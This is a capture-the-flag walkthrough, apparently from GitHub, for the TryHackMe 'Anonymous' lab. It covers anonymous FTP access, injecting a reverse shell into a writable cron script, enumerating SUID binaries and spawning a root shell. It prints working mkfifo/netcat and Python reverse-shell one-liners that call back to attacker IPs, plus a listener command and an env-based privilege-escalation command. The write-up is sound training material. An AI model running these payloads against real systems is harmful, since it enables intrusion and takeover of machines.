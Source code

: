 # 🔥 TryHackMe Anonymous – Privilege Escalation via Writable Cron Script and SUID Binaries

---

## 📌 Scenario Summary

- Target runs **FTP with anonymous login allowed**.
- FTP directory contains:
  - A cleanup script (`clean.sh` or similar) running as a **cron job**.
  - A log file that updates regularly, indicating the cron is active.
- **Writable cron script** allows injecting a reverse shell payload.
- You get a low-privilege shell via FTP exploit and then escalate.
- Found SUID binaries on the system (common escalation vectors).
- Final root access achieved.

---

## 1. Initial Access: FTP & Cron Job

### Step 1: Connect to FTP as anonymous

```bash
ftp <TARGET_IP>
Username: anonymous
Password: (just press Enter)
Step 2: Enumerate files
Found three files:

A .txt file (not useful)

A clean.sh script (used for cleanup)

A clean.log file (updated regularly)

Step 3: Understand cron job
The clean.sh is running as a cron job, meaning it executes automatically on schedule.

This gives an opportunity to inject code that will run with cron's privileges.

Step 4: Download all files locally
bash
Copy
Edit
mget *
Step 5: Modify clean.sh to include reverse shell
Since cron runs shell scripts, use a bash-compatible reverse shell (Python may not work if Python isn't available in cron's environment):

Example reverse shell (bash):

bash
Copy
Edit
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.17.7.111 4444 > /tmp/f
Or python reverse shell:

bash
Copy
Edit
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4444)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); subprocess.call(["/bin/sh","-i"]);'
Step 6: Upload modified clean.sh back to FTP
Ensure you are in the directory where the cron script resides.

Upload the new clean.sh:

bash
Copy
Edit
put clean.sh
Step 7: Open a netcat listener on your machine
bash
Copy
Edit
rlwrap nc -lvnp 4444
Step 8: Wait for cron to execute and trigger reverse shell connection
2. Post-Exploitation: Enumerate SUID Binaries
Once you have shell access (may be low privilege), find potential privilege escalation vectors:

bash
Copy
Edit
find / -type f -perm -4000 -ls 2>/dev/null
This lists files with the SUID bit set.

3. Escalate Privileges
Check SUID binaries found, some common ones are:

swift
Copy
Edit
/bin/su
/bin/ping
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/chsh
/usr/lib/openssh/ssh-keysign
If any are misconfigured or can be exploited, use them to escalate.

4. Gain Root Shell
Example:

bash
Copy
Edit
/usr/bin/env /bin/sh -p
Verify root access:

bash
Copy
Edit
whoami
# Output: root
Summary
Step	Command / Action	Notes
FTP Login	ftp <IP> (anonymous)	Access files
Download Files	mget *	Get cron scripts
Modify Script	Inject reverse shell in clean.sh	Use bash reverse shell script
Upload Script	put clean.sh	Replace cron job script
Netcat Listener	rlwrap nc -lvnp 4444	Wait for shell
Enumerate SUID Files	find / -type f -perm -4000 -ls 2>/dev/null	Find escalation opportunities
Exploit SUID or Env	/usr/bin/env /bin/sh -p	Spawn root shell
Check Root	whoami	Confirm root privileges

Note: Always validate the environment, cron timing, and permissions before executing.